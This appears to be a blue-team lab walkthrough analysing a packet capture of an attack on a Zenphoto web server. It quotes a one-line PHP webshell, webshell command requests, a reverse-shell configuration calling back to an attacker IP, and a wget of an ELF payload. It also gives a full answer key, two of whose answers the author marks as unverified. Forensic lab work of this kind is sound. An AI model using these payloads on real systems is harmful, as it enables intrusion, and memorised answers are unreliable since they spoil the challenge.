








# BTLO Investigation: Fingerprint — Walkthrough

**Scenario:** Analyze the network traffic to identify the C2 communication and fingerprint it using JA3.
**File analyzed:** `fingerprint.pcap`
**Tools used:** Wireshark (GUI) — `ja3.py` (Salesforce) could not be used due to a missing `dpkt`
dependency on an offline lab host with no internet access (see note at the end).

---

## Q1 — Attacker IP that scanned the TCP ports (T1046)

**Method:**
Started with **Statistics → Endpoints** and **Statistics → Conversations → TCP** to look at
overall traffic volume between hosts on the `192.168.1.0/24` subnet. `192.168.1.9` was quickly
identified as the **victim** (Zenphoto web server, later confirmed via HTTP traffic). Several
attacker-controlled hosts surfaced over the course of the investigation:

- `192.168.1.6` — later confirmed as the host serving the malware payload (`myapp`) over a Python
  `SimpleHTTP` server (Q6).
- `192.168.1.16` — later confirmed as the reverse shell listener (Q5), appearing repeatedly
  throughout the capture in connections to `192.168.1.9`.




**Answer:** `192.168.1.16`

> ⚠️ **Note:** This answer is inferred from infrastructure overlap (same host later used for the
> reverse shell) rather than a directly observed SYN-flood/port-sweep pattern. Before final
> submission, confirm by filtering `tcp.flags.syn==1 && tcp.flags.ack==0` and checking
> **Statistics → Conversations → TCP** for a single source IP touching many distinct low/
> well-known destination ports on `192.168.1.9` in a short time window.

---

## Q2 — First file uploaded

**Method:**
Used **File → Export Objects → HTTP** to list all HTTP-transferred objects. Most entries were
normal Zenphoto CMS theme/plugin assets (`admin.js`, `light.css`, `jquery.js`, etc.) and plugin
enumeration requests (`setup_pluginOptions.php?plugin=...`). One request stood out:
`connector_zp.php` — the backend handler for the **elFinder** file manager plugin bundled with
Zenphoto, a known target for file-upload vulnerabilities.



Filtering for `http.request.method=="POST"` and following the TCP stream for the request to
`connector_zp.php` revealed a `multipart/form-data` upload:

```
Content-Disposition: form-data; name="upload[]"; filename="shell.php"
Content-Type: application/x-php

<?php echo system($_REQUEST["cmd"]); ?>
```

The server's JSON response confirmed the file was accepted:
```json
{"added":[{"mime":"text/x-php","ts":1651238261,"read":1,"write":1,"size":40,"hash":"l1_c2hlbGwucGhw","name":"shell.php","phash":"l1_Lw"}]}
```

**Answer:** `shell.php`

---

## Q3 — First command executed by the attacker

**Method:**
Filtered for `http.request.uri contains "shell.php"` to find requests invoking the uploaded
webshell. The earliest hit (packet 33493) was:

```
GET /myapp/uploaded/shell.php?cmd=touch%20test.txt HTTP/1.1
```



URL-decoded, `%20` = space, giving the command `touch test.txt` — a low-risk command typically
used to confirm code execution works before running anything more impactful.

**Answer:** `touch test.txt`

---

## Q4 — Second file uploaded by the attacker

**Method:**
Filtered across the whole capture for any multipart upload:
```
http.request.method=="POST" && http contains "filename="
```
The second hit (after `shell.php`) was a POST to `connector_zp.php` containing:

```
Content-Disposition: form-data; name="upload[]"; filename="shell2.php"
Content-Type: application/x-php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
```



This is the well-known **pentestmonkey PHP reverse shell**, uploaded to escalate from one-shot
command execution to a persistent interactive shell.

**Answer:** `shell2.php`

---

## Q5 — Port used for the reverse shell

**Method:**
Inside the `shell2.php` upload body (same stream as Q4), scrolling past the license header
revealed the hardcoded connect-back configuration:

```php
$ip   = '192.168.1.16';   // CHANGE THIS
$port = 1234;             // CHANGE THIS
```



This was confirmed on the wire: filtering for the trigger request
(`GET /myapp/uploaded/shell2.php`, packet 33718) and looking at the SYN packets immediately
following it showed:

```
192.168.1.9 → 192.168.1.16   SYN   54006 → 1234
```

**Answer:** `1234`

---

## Q6 — C2 URL where the malware is hosted (T1608.001)

**Method:**
Identified an outbound `wget` request from the victim host that retrieved a binary payload:

```
GET /myapp HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Host: 192.168.1.6:8965

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.4
Content-type: application/octet-stream
Content-Length: 12896268

.ELF............
```



Key indicators this is malware staging infrastructure rather than legitimate traffic:
- Response is an **ELF binary** (`.ELF` magic bytes), not a normal web asset.
- Fetched via `wget` (CLI tool, not a browser) — implying it was triggered through the webshell.
- Hosted on Python's built-in `SimpleHTTP` dev server — a common throwaway hosting method for
  attacker-staged payloads, not production web infrastructure.

**Answer:** `http://192.168.1.6:8965/myapp`

---

## Q7 — Location where the command is executed

**Method:**
Followed the TCP stream of the reverse shell session (port 1234, triggered by `shell2.php`).
The session banner confirmed execution context:

```
Linux webserver05 5.13.0-40-generic ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webserver05:/$ cd /tmp
cd /tmp
www-data@webserver05:/tmp$ ls
...
www-data@webserver05:/tmp$ wget http://192.168.1.11...
```



The attacker explicitly changes into `/tmp` immediately after gaining an interactive shell, and
stages further activity (a second `wget`) from that directory. `/tmp` is a classic attacker
staging location — world-writable and often excluded from monitoring/whitelisting.

(An earlier candidate, `/var/www/html/myapp/uploaded` — the location of the `shell.php` web
asset itself, confirmed via a `pwd` command run through `shell.php?cmd=pwd` — was ruled out as
the answer to this specific question.)

**Answer:** `/tmp`

---

## Q8 — JA3 fingerprint of the malware's C2 traffic

**Method:**
Attempted to generate the JA3 fingerprint using the provided `ja3.py` script
(`Desktop/ja3-master/python/ja3.py`), but the script requires the `dpkt` Python library, which
was not installed and could not be retrieved via `pip3 install dpkt` due to the lab environment
having no internet access. As a workaround, the JA3 fingerprint was derived manually from
Wireshark's TLS ClientHello dissection, since the host's Wireshark build did not expose the
`tls.handshake.ja3` field automatically.

Identified the malware's C2 beacon: repeated, periodically-spaced (`~30-35s` interval)
`Client Hello` packets from `192.168.1.9 → 192.168.1.6`, all identical length (274 bytes) —
consistent with a malware check-in/beacon pattern (filter used:
`(ip.addr==192.168.1.6) && ssl.handshake.type==1`).

Extracted the following fields from the ClientHello (packet 38207):

| Field | Value |
|---|---|
| TLS Version | `0x0303` → `771` |
| Cipher Suites | `0xc030, 0xc014, 0x1301, 0x1302, 0x1303` → `49200-49172-4865-4866-4867` |
| Extensions (order on wire) | status_request(5), supported_groups(10), ec_point_formats(11), signature_algorithms(13), renegotiation_info(65281), ALPN(16), signed_certificate_timestamp(18), supported_versions(43), key_share(51) → `5-10-11-13-65281-16-18-43-51` |
| Elliptic Curves | x25519(29), secp256r1(23), secp384r1(24), secp521r1(25) → `29-23-24-25` |
| EC Point Formats | uncompressed(0) → `0` |

**JA3 string:**
```
771,49200-49172-4865-4866-4867,5-10-11-13-65281-16-18-43-51,29-23-24-25,0
```

**MD5 hash of the JA3 string (computed):**

```
4264590bacd8b2accb2021b7adb3b98e
```

**Answer:** `4264590bacd8b2accb2021b7adb3b98e`

> ⚠️ **Note:** This hash was computed manually from extracted field values rather than via the
> `ja3.py` tool or Wireshark's native JA3 dissector (neither was usable in this offline lab
> session). Recommend cross-checking against `ja3er.com` or re-deriving with `ja3.py` if/when
> `dpkt` can be installed, to confirm extension ordering matches exactly.

---

## Summary of Answers

| # | Question | Answer |
|---|---|---|
| 1 | Attacker IP that scanned TCP ports | `192.168.1.16` *(needs verification)* |
| 2 | First file uploaded | `shell.php` |
| 3 | First command executed | `touch test.txt` |
| 4 | Second file uploaded | `shell2.php` |
| 5 | Reverse shell port | `1234` |
| 6 | C2 URL hosting malware | `http://192.168.1.6:8965/myapp` |
| 7 | Location where command executed | `/tmp` |
| 8 | JA3 fingerprint of malware C2 traffic | `4264590bacd8b2accb2021b7adb3b98e` |
